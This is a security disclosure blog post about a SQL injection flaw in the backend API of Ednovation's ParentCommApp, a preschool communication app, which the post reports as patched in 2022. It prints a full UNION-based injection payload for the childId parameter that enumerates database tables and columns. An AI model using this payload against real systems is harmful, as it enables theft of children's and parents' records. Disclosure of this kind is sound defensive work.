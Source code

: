```yaml
---
layout: post
# Possible CVE status: "CVE REQUESTED", "CVE RESERVED", "REPORTED", "FIXED", "FIXED – NO CVE", "NO RESPONSE", "UNPATCHED", "CVE-YYYY-NNNNN"
title: "[CVE REQUESTED] ParentCommApp SQL Injection Backend API"
date: 2025-07-26
cve: "Reported"
status: "Fixed"
categories: [Disclosure]
tags: [cve-requested, CVE, sql-injection, pii-exposure, ednovation, parentcommapp, vulnerability, ios, api]
permalink: /disclosures/parentcommapp-sql-injection-backend-api/
---
```


## Summary

A **SQL injection vulnerability** was identified in a backend API supporting Ednovation's ParentCommApp — a communication platform used by preschools and parents. The vulnerability allows attackers to manipulate request parameters and potentially extract unauthorized records from the database.

> **Ednovation**, headquartered in Singapore, is a leading provider of preschool education services across Asia, has evolved into a chain of more than 60 pre-schools and enrichment centres across Singapore, China and ASEAN.

## Background & Discovery

This issue was discovered while testing the ParentCommApp on iOS, where traffic was intercepted using **Burp Suite**. After logging in and intercepting traffic, it was observed that the API call used to fetch child attendance status did not include any form of validation and accepted unsanitized input — indicating a server-side flaw rather than a client implementation issue.

## Affected Product

- **Vendor**: [Ednovation](https://ednovation.com)
- **App**: ParentCommApp (iOS)
- **Platform**: Backend APIs serving iOS/Android apps
- **Version**: Affected prior to 2022 remediation

## Vulnerability Details

While testing the iOS version of ParentCommApp using **Burp Suite**, an API call responsible for fetching child attendance status was observed to be vulnerable to **SQL injection**.

The vulnerable API accepted a `childId` parameter via POST request body and failed to sanitize the input. Manual testing with SQL payloads like:

```sql
'date=Sun%20Jun%2026%2016%3A19%3A23%20GMT%2B0800%202022&childId=12 UNioN \x0d\x0a  (\x0d\x0a    SELECT 111, 222, 333, 444, 555, 666, 777, 888, 999, 101010,\x0d\x0a      group_concat(a.combine separator \',\'), \x0d\x0a      121212, 131313, 141414   \x0d\x0a    from \x0d\x0a      (\x0d\x0a        SELECT \x0d\x0a          concat(\x0d\x0a            \'\"\', \x0d\x0a            table_name, \x0d\x0a            \'\"\', \x0d\x0a            \':\', \x0d\x0a            \'[\', \x0d\x0a            GROUP_CONCAT(\x0d\x0a              concat(\'\"\', COLUMN_NAME, \'\"\') separator \',\'\x0d\x0a            ), \x0d\x0a            \']\'\x0d\x0a          ) as combine \x0d\x0a        FROM \x0d\x0a          INFORMATION_SCHEMA.COLUMNS \x0d\x0a        WHERE \x0d\x0a          TABLE_SCHEMA = \'dev_XXXX\' \x0d\x0a        GROUP BY \x0d\x0a          TABLE_NAME \x0d\x0a        ORDER BY \x0d\x0a          table_name\x0d\x0a      ) as a\x0d\x0a  )\x0d\x0alimit 1,2#&action=getChildAttendanceStatus'
```

resulted in expanded database output, confirming an **authentication-independent injection flaw**.

## Exploitation Impact

- **Sensitive data disclosure**: Unauthorized access to other child/parent/teacher records
- **Database enumeration**: Potential for data extraction beyond target record

## **Security Best Practices Recommended**:

Vendors should validate and sanitize all input parameters server-side. Use parameterized queries and ORM frameworks to prevent injection flaws.

## Timeline

- **2022-07**: Issue discovered and responsibly reported to vendor  
- **2022-07**: Vendor acknowledged and deployed a patch  
- **2025-07**: Disclosure and CVE request initiated  
